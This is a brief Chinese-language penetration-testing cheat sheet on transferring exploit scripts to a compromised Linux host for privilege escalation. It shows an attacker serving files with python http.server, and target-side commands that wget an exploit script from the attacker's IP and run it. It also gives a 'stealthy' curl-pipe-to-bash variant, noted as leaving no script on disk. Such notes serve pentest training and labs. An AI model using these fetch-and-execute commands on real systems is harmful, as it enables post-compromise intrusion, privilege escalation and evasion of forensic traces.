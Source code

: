 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Linux文件传输 - Linux File Transfers

## 常规方式

```bash
// Attacker
python3 -m http.server 8888
```

```bash
// Target
wget http://攻方IP:8888/利用脚本.sh
chmod +x 利用脚本.sh
利用脚本.sh
```

## 隐蔽方式

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
curl http://攻方IP:8888/利用脚本.sh | bash
```

MEMO：该利用脚本不会被保存在目标系统中
